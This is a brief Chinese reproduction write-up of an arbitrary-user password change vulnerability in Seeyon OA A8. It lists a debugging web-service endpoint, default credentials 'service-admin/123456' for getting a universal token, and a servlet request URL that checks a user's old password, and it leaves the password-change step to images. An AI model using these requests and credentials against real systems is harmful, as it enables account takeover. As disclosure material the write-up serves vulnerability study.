 致远OA A8 任意用户密码修改漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A8

三、复现过程
------------

    http://www.0-sec.org/seeyon/services/authorityService?wsdl

通过调试接口的默认用户 userName:service-admin password:123456
获取万能Token之后可以修改任意用户密码。

![](resource/致远OAA8任意用户密码修改漏洞/media/rId24.png)

访问

    http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun

返回false 说明zw密码不正确

![](resource/致远OAA8任意用户密码修改漏洞/media/rId25.png)

修改密码

![](resource/致远OAA8任意用户密码修改漏洞/media/rId26.png)

![](resource/致远OAA8任意用户密码修改漏洞/media/rId27.shtml)
